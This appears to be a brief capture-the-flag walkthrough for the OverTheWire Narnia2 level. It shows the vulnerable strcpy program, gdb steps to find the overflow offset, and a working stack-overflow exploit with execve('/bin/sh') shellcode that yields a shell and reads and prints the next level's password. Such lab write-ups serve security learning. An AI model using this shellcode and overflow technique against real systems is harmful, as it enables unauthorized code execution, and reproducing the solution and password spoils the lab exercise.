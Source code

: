 ## Narnia2
ssh narnia2@narnia.labs.overthewire.org -p 2226

~~~
cd /narnia/
./narnia2
./narnia2 ABCD
~~~
codigo fuente
~~~
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
~~~

~~~
./narnia2 $(python -c 'print 140 * "A"')
gdb narnia2
set disassembly-flavor intel
disass main
run $(python -c 'print 140 * "A"')
continue
run $(python -c 'print 132 * "A" + "BBBB"')

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

set disassembly-flavor intel
break *main+68
run $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "BBBB"')
x/100x $esp+500

run $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')
continue

./narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')
whoami
cat /etc/narnia_pass/narnia3

vaequeezee
~~~
